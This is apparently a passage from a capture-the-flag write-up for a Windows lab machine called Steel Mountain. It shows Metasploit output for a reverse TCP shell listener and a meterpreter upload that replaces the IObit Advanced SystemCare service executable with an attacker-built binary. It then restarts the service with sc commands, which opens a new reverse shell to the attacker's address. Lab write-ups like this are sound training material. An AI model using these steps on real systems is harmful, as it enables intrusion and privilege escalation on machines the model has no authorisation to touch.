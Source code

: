 ```bash

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                    Payload opts
  --  ----                    -------                    ------------
  0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.8.162.140:1337

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

Upload your binary and replace the legitimate one in the correct path (`C:\Program Files (x86)\IObit\Advanced SystemCare\`). Then restart the program to get a shell as root.

```bash
meterpreter > upload /home/kali/Desktop/Steel-Mountain/ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
[*] uploading  : /home/kali/Desktop/Steel-Mountain/ASCService.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Desktop/Steel-Mountain/ASCService.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
[*] uploaded   : /home/kali/Desktop/Steel-Mountain/ASCService.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
meterpreter > shell
Process 392 created.
Channel 15 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[*] Command shell session 5 opened (10.8.162.140:1337 -> 10.10.46.228:49550 ) at 2022-01-15 15:28:09 -0500
id
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>^Z
Background channel 15? [y/N]  y
meterpreter >
Background session 1? [y/N]
```
